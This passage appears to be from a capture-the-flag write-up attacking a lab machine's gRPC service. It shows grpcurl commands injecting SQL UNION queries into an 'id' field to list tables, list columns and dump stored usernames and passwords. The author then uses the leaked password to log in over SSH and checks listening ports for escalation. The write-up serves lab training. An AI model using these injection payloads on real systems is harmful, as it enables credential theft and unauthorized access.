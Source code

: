 ```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"0 union select name from sqlite_master where type=\"table\";"}' ${t}:50051 SimpleApp.getInfo{
  "message": "accounts"
}
```

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"0 union select group_concat(name, \",\") from pragma_table_info(\"accounts\");"}' ${t}:50051 SimpleApp.getInfo
{
  "message": "username,password"
}
```

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"0 union select group_concat(username || password) from accounts;"}' ${t}:50051 SimpleApp.getInfo
{
  "message": "adminadmin,sauHereIs[...]"
}
```

```console
$ ssh sau@${t}
sau@10.10.11.214's password: 
Last login: Tue Sep 26 22:27:18 2023 from 10.10.14.13
sau@pc:~$ cat user.txt 
44d6f9[...]
sau@pc:~$   
```

## Escalate

I check if there's anything listening on `localhost`:

```console
sau@pc:~$ ss -tlpn
State           Recv-Q          Send-Q                     Local Address:Port                      Peer Address:Port          Process          
LISTEN          0               4096                       127.0.0.53%lo:53                             0.0.0.0:*                              
LISTEN          0               128                              0.0.0.0:22                             0.0.0.0:*                              
LISTEN          0               5                              127.0.0.1:8000                           0.0.0.0:*                              
LISTEN          0               128                              0.0.0.0:9666                           0.0.0.0:*                              
LISTEN          0               128                                 [::]:22                                [::]:*                              
LISTEN          0               4096                                   *:50051                                *:*                              
sau@pc:~$ 
```
